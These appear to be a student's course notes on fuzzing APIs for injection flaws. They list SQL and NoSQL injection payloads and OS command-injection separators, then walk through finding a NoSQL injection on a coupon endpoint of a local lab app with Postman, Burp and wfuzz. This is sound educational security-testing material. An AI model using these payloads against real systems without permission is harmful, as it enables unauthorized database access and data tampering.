

## APISEC Testing for Injection Vulnerabilities notes

### Fuzzing
This section covers using fuzzing to discover injection points and analyzing the responses we receive. Again, fuzzing is sending various different inputs to an endpoint to provoke unintended responses. These payloads can include symbols, numbers, system commands, SQL/NoSQL queries.

The goal is to get the API to send a verbose response or to cause it to behave adversely, user input sanization is important to combat fuzzing.

Potential inputs to test fuzzing against:
- Headers
- Query string parameters
- Parameters in POST/PUT

The more we know about the target system, the more we can focus our attacks and increase the chances of finding vulnerabilities.  This is where the previous reconnaissance efforts become important, if we know what database, OS, programming language the system uses we can submit targeted payloads to detect vulnerabilities associated with the respectful technologies.

The art of fuzzing is knowing the right payload to send in the right request with the right tools. We can narrow this with reconnaissance tools.

For example if the API expects an input we could try:
- VEERY LARGE NUMBER
- VEERY LARGE STRING
- negative number
- A string (instead of number or boolean)
- Random characters
- Boolean values
- Meta characters

### SQL Injection meta characters
```
'
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1
```

### NoSQL Injection
NoSQL metacharacters you could send in an API request to manipulate the database:
```
$gt 
{"$gt":""}
{"$gt":-1}
$ne
{"$ne":""}
{"$ne":-1}
$nin
{"$nin":1}
{"$nin":[1]}
{"$where":  "sleep(1000)"}
```
Where for example $gt is a MongoDB NoSQL query operator "greater"
$ne = not equal
$nin = not in

### OS Injection

These command injections require being able to leverage system commands that the application has access to or escaping the pp altogether.

```
|
||
&
&&
'
"
;
'"
```

```
Common Operating System Commands to Use in Injection Attacks

Windows
____________
ipconfig
dir
ver
whoami

*nix (Linux and Unix)
____________
ifconfig
ls
pwd
whoami
```

Postman collection runner is great for testing the whole application where as wfuzz and others are great for individual requests.

So to do fuzzing on the whole collection first we add fuzzing variables to the environment then choose interesting requests and replace the URL variables or body variables with "{{fuzz}}".

We then check for interesting responses, particularly the POST orders seems interesting, we can then change the fuzz variable to any of the others mentioned above. When we fuzz with {"$gt":-1} we notice a new unique response code 422 "Unprocessable Entity" on endpoint POST ```{{baseUrl}}/community/api/v2/coupon/validate-coupon``` 

```
{
    "error": "invalid character '$' after object key:value pair"
}
```
and another new response at POST ```{{baseUrl}}/community/api/v2/community/posts```
```
{
    "detail": "JSON parse error - Expecting ',' delimiter: line 2 column 20 (char 21)"
}
```
We then take these two requests into burp suite to fuzz them further in the intruder by using the noSQL payloads listed above.

When sending them in "\$payload\$" format we don't really get any information but when we send them as json objects \$payload$ we get code 200 on some payloads on the validate coupon endpoint. Furthermore the response changed from the other endpoint to 
```
{
    "error":"invalid character '%' looking for beginning of value"
}
```
We can notice that the coupon endpoint is vulnerable to NoSQL payloads! Lets use wfuzz to further fuzz the noticed endpoint for example:

```
wfuzz -z file,/home/kali/Downloads/mongodb_nosqli.txt -H 'Content-Type: application/json' -H 'Authorization: Bearer ...' -d "{\"coupon_codes\":FUZZ}" --sc 200 http://127.0.0.1:8888/community/api/v2/coupon/validate-coupon
```
we can proxy through burp suite to validate all the formatting etc in the payloads.
